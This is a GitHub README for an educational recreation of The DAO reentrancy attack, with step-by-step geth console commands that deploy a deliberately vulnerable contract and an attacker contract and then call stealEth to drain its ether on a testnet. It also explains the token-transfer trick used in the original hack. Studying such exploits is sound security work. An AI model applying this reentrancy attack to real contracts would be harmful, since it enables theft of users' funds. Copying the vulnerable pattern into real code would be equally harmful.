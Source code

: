 # mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit

NOTE: THESE CONTRACTS WAS BUILT WITH SOLIDITY v0.3.6 - it will not compile with any newer versions!!

Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `compile_solidity.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./compile_solidity.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');

You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its all lowercase name (`dumbdao`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
Optional: run the event listener javascript file - sometimes its helpful to have feedback on the javascript console about which events are runnning:

        loadScript('/Path/to/your/ws/mock-dao-hack/events.js');

First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbdao.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});

    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbdao.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbdao.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbdao.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});

    //check Token balance for attacker
    web3.fromWei(dumbdao.balances(attacker.address));

The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.


#DAO Attack - Part 2
To pull off the DAO hack, the attacker used a combination of the recursive/reentrant call attack and another exploit. This second attack consisted of the attacker transfering his DAO tokens to a different address as the last step of his recursive eploit. After the recurive attack ends and the DAO tries to update the attacker's DAO token balance which is now already 0 because of the transfer. The attacker is now free to transfer the tokens back into the attacker contract and run the exploit again.

#Further reading
DAO Hack FAQ:
https://www.reddit.com/r/ethereum/comments/4os7l5/the_big_thedao_heist_faq/

In depth Analysis:
http://vessenes.com/deconstructing-thedao-attack-a-brief-code-tour/

http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/

https://pdaian.com/blog/chasing-the-dao-attackers-wake/
